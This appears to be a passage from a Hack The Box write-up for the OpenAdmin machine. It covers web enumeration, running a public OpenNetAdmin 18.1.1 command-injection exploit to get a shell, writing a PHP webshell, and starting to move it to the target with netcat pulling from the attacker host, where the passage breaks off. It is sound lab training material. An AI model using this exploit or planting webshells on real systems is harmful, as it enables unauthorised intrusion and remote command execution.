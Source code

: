 ## TCP/80 (HTTP)
- FFUF
	```
	301      GET        9l       28w      314c http://10.10.10.171/artwork => http://10.10.10.171/artwork/
	200      GET      375l      964w    10918c http://10.10.10.171/index.html
	301      GET        9l       28w      312c http://10.10.10.171/music => http://10.10.10.171/music/
	403      GET        9l       28w      277c http://10.10.10.171/server-status
	```



# Initial Foothold

## TCP/80 (HTTP) - OpenNetAdmin v18.1.1 Remote Code Execution
1. Found `OpenNetAdmin v18.1.1` running after clicking `Login` from `http://OpenAdmin.htb/music`
	![]({{ page.img_path }}Pasted%20image%2020220925220041.png)
2. Search exploits for `OpenNetAdmin v18.1.1`

	| Exploit Title                                                | Path                 |
	| ------------------------------------------------------------ | -------------------- |
	| OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit) | php/webapps/47772.rb |
	| OpenNetAdmin 18.1.1 - Remote Code Execution                  | php/webapps/47691.sh |
3. How does `OpenNetAdmin 18.1.1 - Remote Code Execution` - (`php/webapps/47691.sh`) work?
	- This module exploits a command injection in OpenNetAdmin between` 8.5.14` and `18.1.1`.
4. Try `OpenNetAdmin v18.1.1 - Remote Code Execution` - (`php/webapps/47691.sh`)
	1. Exploit!
		```
		┌──(root💀kali)-[~/htb/OpenAdmin/10.10.10.171]
		└─# sh 47691.sh http://openadmin.htb/ona/
		$ id;whoami
		uid=33(www-data) gid=33(www-data) groups=33(www-data)
		www-data
		$
		```
	2. The shell is unstable, could not upgrade shell to fully interactive tty.
	3. Create webshell
		```
		┌──(root💀kali)-[~/htb/OpenAdmin]
		└─# echo "<?php system(\$_GET['c']);?>" | tee webshell.php
		<?php system($_GET['c']);?>
		```
	4. Transfer webshell to `openadmin.htb`
		```
		┌──(root💀kali)-[~/htb/OpenAdmin]
		└─# nc -nvlp 4444 < webshell.php
		$ nc 10.10.14.14 4444 > webshell.php
		